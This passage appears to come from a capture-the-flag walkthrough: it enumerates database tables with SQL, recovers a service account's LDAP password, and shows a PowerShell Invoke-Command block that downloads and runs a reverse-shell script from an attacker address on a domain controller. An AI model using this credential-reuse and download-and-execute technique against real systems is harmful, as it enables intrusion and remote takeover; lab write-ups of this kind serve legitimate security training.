 
List Table - `SELECT table_catalog, table_name FROM information_schema.columns`

`select * from UserImport`

We now have the LDAP credentials of an user: `MiscSvc:ScrambledEggs9900`

![Untitled](images/Untitled%2018.png)

We can PSREMOTE

```powershell

$pass = ConvertTo-SecureString "ScrambledEggs9900" -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential("scrm\miscsvc", $pass)
Invoke-Command -Computer dc1 -ScriptBlock { IEX(New-Object Net.WebClient).downloadString("http://10.10.14.18/revshell.ps1") } -Credential $cred
```

![Untitled](images/Untitled%2019.png)
